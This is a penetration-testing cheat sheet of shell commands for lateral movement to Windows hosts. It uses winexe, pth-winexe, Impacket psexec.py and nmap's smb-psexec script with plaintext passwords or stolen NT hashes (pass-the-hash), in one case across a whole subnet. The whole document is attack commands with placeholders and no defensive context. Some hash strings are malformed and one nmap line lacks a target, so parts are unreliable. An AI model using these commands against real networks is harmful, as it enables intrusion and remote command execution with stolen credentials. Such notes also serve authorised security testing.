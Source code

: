 # Unix Shell

Search Tag(s): #lateral-movement #psexec #impacket #windows

## 01 - Samba Suite Utils

```
$ winexe -U <domain>/<username>%<password> //<IP> <cmd.exe | powershell.exe>
```

Pass the Hash

```
$ pth-winexe -U <domain>/<username>%aad3b435b51404eeaad3b435b51404ee:<nt_hash> //<IP> <cmd.exe | powershell.exe>
```

## 02 - Impacket

```
$ psexec.py [<domain>/]<username>:<password>@<IP> [-codecs <codec>]
```

- Pass the Hash

```
$ psexec.py <username>@<IP> -hashes <ntlm_hash> [-codecs <codec>]

$ psexec.py [<domain>/]<username>@<IP> -hashes 0000000000000000000000000000000:<nt_hash>

$ psexec.py [<domain>/]<username>@<IP> -hashes aad3b435b51404eeaa3b435b51404ee:<nt_hash>

$ psexec.py [<domain>/]<username>@<IP> -hashes :<nt_hash>
```

## 03 - Network Mapper

```
$ nmap -p 445 -Pn --script smb-psexec --script-args 'smbuser=<username>,smbhash=<nt_hash>' <IP>/<CIDR>

$ sudo nmap -p U:137,T:139 -Pn -sUS --script smb-psexec --script-args 'smbuser=<username>,smbhash=<nt_hash>'
```